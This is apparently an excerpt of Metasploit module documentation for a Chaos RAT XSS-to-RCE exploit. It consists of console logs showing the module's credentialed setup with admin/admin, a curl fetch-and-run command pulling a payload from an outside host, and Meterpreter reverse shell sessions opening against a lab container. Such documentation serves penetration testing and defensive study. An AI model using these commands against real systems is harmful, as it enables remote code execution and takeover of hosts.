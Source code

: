 ```
[*] Meterpreter session 1 opened (111.111.63.147:4444 -> 172.17.0.2:55572) at 2024-04-17 15:32:59 +0000
```

### Credentialed Method

```
[*] Processing chaos.rb for ERB directives.
resource (chaos.rb)> use exploit/linux/http/chaos_rat_xss_to_rce
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
resource (chaos.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (chaos.rb)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (chaos.rb)> set username admin
username => admin
resource (chaos.rb)> set password admin
password => admin
resource (chaos.rb)> set SRVHOST 111.111.63.147
SRVHOST => 111.111.63.147
resource (chaos.rb)> set SRVPORT 8888
SRVPORT => 8888
resource (chaos.rb)> set verbose true
verbose => true
msf exploit(linux/http/chaos_rat_xss_to_rce) > exploit

[*] Command to run on remote host: curl -so ./FdfcLgdHSudl http://111.111.63.147:9090/mh1dne7HFFTZ0wiiiWgmfw; chmod +x ./FdfcLgdHSudl; ./FdfcLgdHSudl &
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/chaos_rat_xss_to_rce) >
[*] Fetch handler listening on 111.111.63.147:9090
[*] HTTP server started
[*] Adding resource /mh1dne7HFFTZ0wiiiWgmfw
[*] Started reverse TCP handler on 111.111.63.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Chaos application found
[*] Attempting exploitation through direct login
[*] Attempting login
[*] Client 172.17.0.2 requested /mh1dne7HFFTZ0wiiiWgmfw
[*] Sending payload to 172.17.0.2 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (111.111.63.147:4444 -> 172.17.0.2:59770) at 2024-04-17 15:40:11 +0000

